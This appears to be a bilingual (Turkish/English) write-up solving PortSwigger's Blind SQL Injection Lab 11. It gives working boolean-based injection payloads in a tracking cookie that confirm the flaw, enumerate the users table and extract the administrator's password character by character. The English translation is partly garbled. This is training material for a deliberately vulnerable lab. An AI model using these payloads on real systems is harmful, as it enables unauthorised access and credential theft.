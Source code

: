 # BlindSQLi
Portswigger -> Web Security Academy -> SQL Injection -> Blind

->Portswigger platformu; içerisinde bulunan Web Security ve daha bir çok alandaki eğitimlere ücretsiz erişim hakkı tanımaktadır.
->Bunun yanında üretmiş oldukları çok fonksiyonlu BurpSuit aracının sektör açısından önemi yadsınamaz.
->Bu proje Portswigger -> Web Security Academy -> SQL Injection -> Blind -> Lab11 için çözüm adımlarını içermektedir.
->BurpSuit'in Community Edition sürümü kullamılmıştır.
_________________________________________________________________________________________________________________________________

# BlindSQLi
Portswigger -> Web Security Academy -> SQL Injection -> Blind

->Portswigger platform; Free access to trainings in Web Security and many other areas is provided.
->In addition, it is undeniable to demonstrate the performance of the multifunctional BurpSuit vehicles that I have produced.
->This project contains the solution steps for Portswigger -> Web Security Academy -> SQL Injection -> Blind -> Lab11.
->Community Edition of BurpSuit is used.




                                <---Portswigger -> Web Security Academy -> SQL Injection -> Blind -> Lab11--->
                                ______________________________________________________________________________
                                
 
Blind SQLi

Zaafiyet Parametresi - Cookie

Hedefler:

1-) Admin şifresini numaralandır.
2-) Admin olarak giriş yap.

Öncelikle bir zaafiyetin tespiti ardından sömürülmesi gerektiğini biliyoruz. Bu sebeple ilk adımımız zaafiyet bulunduğu belirtilen Cookie üzerinden doğru/yanlış sorgular yaparak zaafiyetin varlığından emin olmamız gerekmekte.
Çözüm boyunca "Welcome back" sonucu aldığımız her sorgulama doğrulama yapmış olduğumuz anlamına gelmektedir. Eğer Response alanında bu veriyi göremiyorsak ya yaptığımız uygulamada yanlışlık vardır ya da olumsuz dönüş alıyoruzdur.
_______________________________________________________________________________________________________________________________________________________________________

Analiz:

1-) Zaafiyetin doğru olup olmadığının kontrolü.

select tracking.id from tracking.table where trackingId= 'Gw7uThB7J9IIhYBl'
-> Eğer bu işlem işe yararsa -> dönüş doğru olacak -> Welcome back message
-> Eğer bu işlem işe yaramazsa -> dönüş olmayacak -> No Welcome back message

Sql tarafında çalıştırıldığını tahmin edebileceğimiz sorguları hayal etmemiz ve deneme yanılma yolu ile doğruluğunu tespit etmemiz gerekli.

select tracking.id from tracking.table where trackingId= 'Gw7uThB7J9IIhYBl' and 1=0--'
->Yanlış -> No Welcome back

select tracking.id from tracking.table where trackingId= 'Gw7uThB7J9IIhYBl' and 1=1--'
-> Doğru -> Welcome back


_______________________________________________________________________________________________________________________________________________________________________


2-) Bir Kullanıcı Tablosu Olup Olmadığını Kontrol Et

select tracking.id from tracking.table where trackingId= 'Gw7uThB7J9IIhYBl' and (select 'x' from users LIMIT 1)='x'--'
-> users tablosu databasede mevcut.

_______________________________________________________________________________________________________________________________________________________________________


3-) Admin kullancısının Users tablosunda olup olmadığını kontrol et.

select tracking.id from tracking.table where trackingId= 'Gw7uThB7J9IIhYBl' and (select username from users where username='administrator')='administrator'--'
-> Admin kullanıcısı databasedeki users tablosunda mevcut.

_______________________________________________________________________________________________________________________________________________________________________


4-) Admin şifresinin numaralandır.

select tracking.id from tracking.table where trackingId= 'Gw7uThB7J9IIhYBl' and (select password from users where username='administrator')='Welcome2021!'--'
-> Kaba kuvvet saldırı gibi olduğundan mantıklı bir sorgu olmayıp istediğimiz sonucu vermeyecektir.

*Öncelikle password uzunluğunu bulmamız lazım.
select tracking.id from tracking.table where trackingId= 'Gw7uThB7J9IIhYBl' and (select username from users where username='administrator' and LENGTH (password)>20)='administrator'--' ///->20 değerine kadar denemeler yapılabilir ancak
BurpSuit yardımı ile de kolaylıkla bulunması mümkün.
->Şifre uzunluğu 20 karakter.

select tracking.id from tracking.table where trackingId= 'Gw7uThB7J9IIhYBl' and (select substring(password,2,1) from users where username='administrator')='a'--'

123456789 10 11 12 13 14 15 16 17 18 19 20
a1g2k2v3f  j  r  a  w  y  z  y  6  t  l  9


***********************************************************************************************************************************************************************


Goals:

1-) Number the admin password.
2-) Login as admin.

We know that first of all, a vulnerability must be detected and then exploited. For this reason, our first step is to make sure that the vulnerability exists by making correct/false queries on the Cookie, which is stated to be vulnerable.
Every query we get a "Welcome back" result throughout the solution means that we have verified. If we cannot see this data in the Response field, either there is an error in our application or we receive a negative response.

_______________________________________________________________________________________________________________________________________________________________________

Analysis:

1-) Checking whether the vulnerability is correct.

select tracking.id from tracking.table where trackingId= 'Gw7uThB7J9IIhYBl'
-> If this works -> return will be correct -> Welcome back message
-> If this doesn't work -> no return -> No Welcome back message

We need to imagine the queries that we can guess to be run on the SQL side and determine their accuracy by trial and error.

select tracking.id from tracking.table where trackingId= 'Gw7uThB7J9IIhYBl' and 1=0--'
->False -> No Welcome back

select tracking.id from tracking.table where trackingId= 'Gw7uThB7J9IIhYBl' and 1=1--'
-> Correct -> Welcome back

_______________________________________________________________________________________________________________________________________________________________________


2-) Check if there is a User Table

select tracking.id from tracking.table where trackingId= 'Gw7uThB7J9IIhYBl' and (select 'x' from users LIMIT 1)='x'--'
-> users table exists in database.

_______________________________________________________________________________________________________________________________________________________________________


3-) Check if the Admin user is in the Users table.

select tracking.id from tracking.table where trackingId= 'Gw7uThB7J9IIhYBl' and (select username from users where username='administrator')='administrator'--'
-> The admin user exists in the users table in the database.

_______________________________________________________________________________________________________________________________________________________________________


4-) Number of the admin password.

select tracking.id from tracking.table where trackingId= 'Gw7uThB7J9IIhYBl' and (select password from users where username='administrator')='Welcome2021!'--'
-> Since it is like a brute force attack, it is not a logical query and will not give the result we want.

*First we need to find the password length.
select tracking.id from tracking.table where trackingId= 'Gw7uThB7J9IIhYBl' and (select username from users where username='administrator' and LENGTH (password)>20)='administrator'--' 
///-> Attempts up to 20 can be done but It can be easily found with the help of BurpSuit.
->Password length 20 characters.

select tracking.id from tracking.table where trackingId= 'Gw7uThB7J9IIhYBl' and (select substring(password,2,1) from users where username='administrator')='a'--'

123456789 10 11 12 13 14 15 16 17 18 19 20
a1g2k2v3f  j  r  a  w  y  z  y  6  t  l  9

